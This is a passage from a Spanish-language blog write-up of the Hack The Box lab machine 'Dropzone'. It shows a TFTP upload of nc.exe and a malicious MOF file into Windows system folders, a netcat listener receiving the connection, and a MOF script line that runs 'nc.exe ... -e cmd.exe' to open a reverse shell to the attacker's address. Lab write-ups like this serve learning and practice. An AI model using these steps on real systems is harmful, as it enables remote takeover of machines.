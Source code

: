 Listo, hagámoslo permanente:

```bash
❱ sed -i 's/\\\\/\\/g' payload.mof
```

Ahora, volvamos a intentar a ver si ese era el problema:

```bash
tftp> binary
tftp> put nc.exe /Windows/System32/nc.exe
Sent 38616 bytes in 8.3 seconds
tftp> put payload.mof /Windows/System32/wbem/mof/payload.mof
Sent 2218 bytes in 0.7 seconds
tftp> 
```

Y en nuestro listener:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
connect to [10.10.14.10] from dropzone.htb [10.10.10.90] 1066
```

TENEMOS RESPUESTAAAAAAAAAAAAAAAAAAaaaAAaasdfasdflkjasdgklñ!!

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dropzone/139google_gif_muppetDance.gif" style="display: block; margin-left: auto; margin-right: auto; width: 40%;"/>

Listoooooooooooo, podríamos generar un payload con `msfvenom` que al ejecutarse nos lanzara una **Reverse Shell**, pero probando con el mismo `nc.exe` podemos indicarle la instrucción de siempre:

```mof
...
ScriptText = ...ns.Run(\"nc.exe 10.10.14.10 4433 -e cmd.exe\");} catch...
...
```

Con eso le indicamos que una vez se obtenga la petición en nuestro servidor (listener) nos lance una `cmd.exe`, o sea, una terminal (:

Subimos los binarios y en nuestro listeneeeeeer:
